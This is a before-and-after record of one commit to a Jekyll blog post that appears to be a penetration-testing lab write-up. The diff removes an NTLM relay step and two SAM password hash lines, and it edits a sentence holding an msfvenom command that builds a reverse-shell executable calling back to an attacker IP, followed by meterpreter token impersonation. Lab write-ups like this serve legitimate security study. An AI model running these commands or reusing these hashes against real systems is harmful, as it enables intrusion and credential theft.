

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from _posts/2018-3-26-lky-labs.md, in a window 1280 px wide and 1400 px high, scrolled down 11646 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -188,12 +188,6 @@
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-responder.png)
 
 
-We run `./ntlmrelayx.py -tf targets.txt` along side responder and get the sam hashes we're after:
-
-```
-Administrator:500:aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e:::
-Guest:501:aad3b435b51404eeaad3b435b51404ee:06a380cfedba265a9bcf51f2cffa40fa:::
-```
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-ntlmrelayx.png)
 
@@ -204,7 +198,7 @@
 
 
 
-Success as system on sql01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
+Success. As system on SQL01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-steal-token-01.png)
 
````
